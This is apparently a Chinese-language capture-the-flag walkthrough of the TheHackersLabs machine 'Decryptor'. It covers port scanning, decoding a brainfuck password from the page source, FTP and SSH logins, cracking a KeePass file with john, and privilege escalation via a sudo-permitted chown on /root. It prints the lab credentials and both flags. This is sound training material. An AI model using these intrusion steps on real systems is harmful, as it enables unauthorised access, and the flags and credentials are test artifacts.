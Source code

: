 # Decryptor

2025.03.06 https://thehackerslabs.com/decryptor/

[video](https://www.bilibili.com/video/BV1dH9rY7EVN/?spm_id_from=333.1387.collection.video_card.click&vd_source=aed2f374c732513d2e535afafb1fd2ec)

## Ip

192.168.5.39

## Scan

```
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
2121/tcp open  ccproxy-ftp
```

80 web 源码底部发现 brainfuck 编码:

```
++++++++++[>+++++++++++>++++++++++>+++++++++++>+++++++++++>+++++++++++>++++++++++>++++++++++>++++++++++++>++++++++++++>+++++++++++>++++++++++>++++++++++++>++++++++++++>++++++++++>++++++++++<<<<<<<<<<<<<<<-]>-.>---.>++++.>-----.>+.>+.>---.>----.>-----.>--.>+.>----..>---.>-.>+.

marioeatslettuce
```

像是个密码

对 80 扫描什么都没发现，只有上面这个字符串在仔细看看，好像能分解成 `mario:eatslettuce` 或者 `mario:marioeatslettuce` 尝试登陆 ssh 和 ftp，发现`mario:marioeatslettuce`能登陆 ftp。

发现 keeppass 文件 user.kdbx，使用 john 找到其密码为 moonshine1 ，在线解密 https://app.keeweb.info/ 输入密码，得到加密内容: `chiquero:barcelona2012` 应该是 ssh 的凭据进行登陆。

先拿到 user flag：

```
chiquero@Decryptor:/home/mario$ cat user.txt
sfds5gf6sfdcdafsd5a7sdcydsf58
```

sudo -l 发现 chown 可以直接修改 /root 目录所有者：

```
chiquero@Decryptor:/var/www/html$ sudo chown chiquero:chiquero /root
chiquero@Decryptor:/var/www/html$ cd /root
chiquero@Decryptor:/root$ ls
root.txt
chiquero@Decryptor:/root$ cat root.txt
84c853bhfs5gsdfvsf4dasbsrha3a
```
